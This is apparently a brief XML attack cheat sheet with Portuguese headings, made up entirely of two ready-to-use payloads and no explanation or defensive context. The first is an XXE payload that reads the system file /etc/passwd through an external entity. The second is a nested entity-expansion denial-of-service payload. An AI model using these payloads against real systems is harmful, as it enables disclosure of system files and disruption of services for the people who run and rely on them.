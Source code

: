 
# Leitura de arquivo

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

```

# Ataque do tipo DOS (Denial of Service)

```xml
    <!DOCTYPE data [
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
    ]>
    <data>&a4;</data>
```

